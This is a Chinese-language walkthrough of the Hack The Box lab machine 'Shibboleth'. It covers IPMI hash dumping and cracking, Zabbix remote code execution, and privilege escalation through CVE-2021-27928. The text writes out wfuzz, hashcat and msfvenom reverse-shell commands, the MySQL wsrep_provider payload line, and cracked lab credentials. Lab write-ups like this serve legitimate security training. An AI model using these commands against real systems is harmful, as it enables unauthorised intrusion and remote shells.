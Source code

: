 ```yaml
---
title: Shibboleth
date: 2022-01-13 17:37:59
tags: Hack the box
categories: 中间件
---
```


## 信息收集
只做一个简单的扫描，发现只开放了web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/97c60e806c6d413eb3524efdf5cbdb9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/19faecaea42a449ba7cf1bc2244db896.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
fuzz了一下路径，并没有发现任何有价值的路径信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d1c7ad510a74a089d925f6c3b674ead.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们将思路转换到子域名挖掘上，发现了三个子域，我们将它们逐一访问的时候发现都同时指向同一个登录页面

```bash
wfuzz -c -u "http://shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 26 -H "HOST:FUZZ.shibboleth.htb"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/520287b9831e4eafa7e8f56cb80b2463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cd36cb1f22d4ffc97f718b00a6170eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们对这个表单进行SQL注入漏洞的检测时，并没有发现存在注入，也没有发现对应的中间件漏洞，到这里我的思路断了。我在反思它是个靶场肯定是有漏洞点的，可能是我信息收集那块做得不够细致。因此我对靶场进行UDP端口的扫描，查看是否存在漏扫的地方。扫描时发现开放了623端口的asf-rmcp服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d6296236bc149bb9e96a7c0219733f9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

在搜索引擎上搜索时，发现了对应的漏洞利用复现。漏洞利用的方式是使用MSF框架的对应模块进行漏洞的检测
![在这里插入图片描述](https://img-blog.csdnimg.cn/c1bceb8bee654c4d82f8bd3ecd59c2a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/53abaaec2bdc4593a1cc5de0b865f47e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
设置好对应的参数后，发现IPMI的版本是2.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/5430d56678624006bcb42e414ff0a16e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试使用下载哈希的模块，尝试能否将用户对应的hash值下载下来。我们发现对应的管理员的哈希值，我们可以将哈希值保存下来，使用hashcat进行密码破解，因为对应的加密方式是IPMI，因此我们可以筛选一下![在这里插入图片描述](https://img-blog.csdnimg.cn/8ddb20fb646844cb8c2c59c9be1da693.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
对应的编号是7300，解密出来的密码是`ilovepumkinpie1`。

```bash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d0ed66d101f41c593497ac9adc49a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bba274825dc42cba553281a16464f09.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以拿这个账号密码登录进zabbix的管理员页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/85d21ce1938d44168a00a9fbfc97ee33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查阅对应的漏洞复现文章发现，在Configuration的hosts处，可以添加对应的脚本，实现RCE漏洞的执行
![在这里插入图片描述](https://img-blog.csdnimg.cn/aa4967975c894ae188bd13955e787130.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/99a13f40d5a6484dac50075d8cf77c10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9ceff97b59546599dedd240624fca25.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在key处添加我们要执行的RCE代码内容，点击添加并执行，期间我们开启对应的监听端口，可以反弹一个shell到本地终端上
![在这里插入图片描述](https://img-blog.csdnimg.cn/89a3911aa36b420887970de69515048e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0622899df61434e924f6d2b2b2ab3b2.png)
## 提权
我们确实是获得了一个终端，但是并没有权限查看到user.txt的内容，我们得想办法提权到ipmi-svc这个账户的权限上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4b5288c956948ba9dd4b917f5396c02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们下意识可以尝试，使用Administrator账户的密码看看是否能成功。令人很意外的是，居然成功了
![在这里插入图片描述](https://img-blog.csdnimg.cn/586fc07ad39344f8858fd00d7dbdb3d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那下一步就是拿取root权限了，我上传了个linpeas.sh脚本到目标主机上进行检查，但是并没有发现任何有价值的信息。但是我们查看本地的端口时，发现开放了mysql服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cabb3c6e28b43f5a42c5b3bb9d2e9c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进入到zabbix的目录上，筛选信息发现了数据库的密码为`bloooarskybluh`，用户名为`zabbix`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2423387ead4747a28f952d7b47bab881.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c46ad8d982584668af369bfe0217eb1c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试登录到数据库上，数据库的版本为`10.3.25`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c99b6814e5f94d5796ef64db705d2fe9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我尝试过搜寻数据库中对应账户的密码进行解密，但是都无功而返。切换一种思路，我搜寻到了mysql对应版本的漏洞信息。文章中说明了这个版本的mysql存在RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/88dd5b53214b46a1b29cf0f8250eadfd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我在github上找到一个漏洞利用的脚本，这是链接[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)
![在这里插入图片描述](https://img-blog.csdnimg.cn/11fbc233c5ad4caa848e064466e57189.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
根据提示来，我们先生成一个对应的payload，再开启监听反弹一个root的shell到本地上

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f elf-so -o payload.so
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba5f1d4ea3274eadaa72fd212301296f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后把payload文件上传到目标主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/d37c053a543346549047aa87a86b4409.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后登录到mysql里，执行这么一段指令`SET GLOBAL wsrep_provider="/tmp/payload.so";`，获得root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/cab9ce62d2c54b2d8ef5236665166e5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
这个靶机还是相当出色的，首先一般的扫描只能扫描到80的web服务，因为web服务最多就只能发掘到子域的登录表单上，之后就断思路了。所以还得扫描UDP的端口，这个就不是特别多人能够想得到，进行登录操作后，又得考验对zabbix的RCE漏洞利用，这个要求也比较高，然后再到root的提权上，很充分地考查了对中间件安全的知识，总体来说这是一个相当出色的靶机。
